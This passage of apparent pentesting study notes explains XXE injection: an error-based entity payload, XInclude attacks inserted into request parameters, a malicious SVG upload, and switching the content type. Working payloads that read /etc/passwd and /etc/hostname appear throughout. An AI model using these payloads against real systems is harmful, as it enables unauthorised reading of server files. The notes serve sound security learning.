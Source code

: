 ```xml
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
{% endcode %}

## Finding hidden attack surface for XXE injection

{% code overflow="wrap" fullWidth="true" %}
```xml
Attack surface for XXE injection vulnerabilities seems obvious -> HTTP request in XML format
In other cases, the attack surface is less visible -> look in the right places to find XXE in requests w/ no XML

############################### XInclude attacks
Some apps receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. 
In this situation, you cannot carry out a classic XXE attack (no control of the entire XML document so no DOCTYPE)
Use XInclude instead. XInclude is a part of the XML specification that allows an XML doc to be built from sub-documents
You can place an XInclude attack within any data value in an XML document (e.g., where you only control a single item)
# XInclude attack -> reference the XInclude namespace and provide the path to the file that you wish to include
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
# EXAMPLE: Exploiting XInclude to retrieve files
- Locate parameters on HTTP request, for example: 
productId=1&storeId=1
- Try to place XInclude attack on parameters:
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">

<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1

############################# XXE attacks via file upload
Some apps allow users to upload files which are then processed server-side. Some common file formats use XML or
contain XML subcomponents. Examples: office document formats like DOCX and image formats like SVG. 
An app might allow image upload -> expects PNG/JPEG but image processing library used might support SVG images -> SVG
uses XML -> submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>

############################# XXE attacks via modified content type
Most POST requests -> content type such as application/x-www-form-urlencoded but might tolerate others, including XML.
#  For example, if a normal request contains the following: 
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```